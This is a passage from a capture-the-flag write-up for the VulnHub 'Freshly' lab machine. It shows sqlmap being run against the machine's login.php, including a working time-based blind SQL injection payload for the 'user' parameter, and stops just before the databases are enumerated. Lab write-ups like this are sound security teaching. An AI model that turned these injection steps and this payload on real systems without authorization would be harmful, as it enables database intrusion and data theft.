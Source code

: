   * All in One SEO Pack  - Authentication Bypas: There was nothing in the metadata.
  * Cart66 Lite 1.5.3 - SQL Injection: Need to be authenticated
  * proplayer 4.7.9.1 - SQL Injection: Concerns a non available URL (you can run sqlmap on it to confirm this)

Therefore none of this will help us in this challenge.

# Exploit

Nikto shows us some interesting URL. The login interface at `login.php` may be
injectable.

## sqlmap

We need to use burp in order to save the POST request to a file, an then we
launch [sqlmap](http://sqlmap,org) on the `login.php` URL:

    :::text
    [maggick@rootine sqlmap]$ python2 sqlmap.py -r login_req -p user
             _
     ___ ___| |_____ ___ ___  {1.0-dev-dbfa8f1}
    |_ -| . | |     | .'| . |
    |___|_  |_|_|_|_|__,|  _|
          |_|           |_|   http://sqlmap.org

    [*] starting at 20:43:22

    [20:43:22] [INFO] parsing HTTP request from '/home/maggick/work/chall/vulnhub/Freshly/login_req'
    [20:43:22] [INFO] resuming back-end DBMS 'mysql'
    [20:43:22] [INFO] testing connection to the target URL
    [20:43:22] [INFO] heuristics detected web page charset 'ascii'
    sqlmap identified the following injection points with a total of 0 HTTP(s)
    requests:
    ---
    Parameter: user (POST)
        Type: AND/OR time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
        Payload: user=asdf' AND (SELECT * FROM (SELECT(SLEEP(5)))RaKL) AND 'KuPd'='KuPd&password=asdf&s=Submit
    ---
    [20:43:22] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Apache 2.4.7, PHP 5.5.9
    back-end DBMS: MySQL 5.0.12
    [20:43:22] [INFO] fetched data logged to text files under '/home/maggick/.sqlmap/output/10.0.2.5'

    [*] shutting down at 20:43:22

Okay the `user` parameter is vulnerable to a time-based blind injection. Let's
see what are the databases:
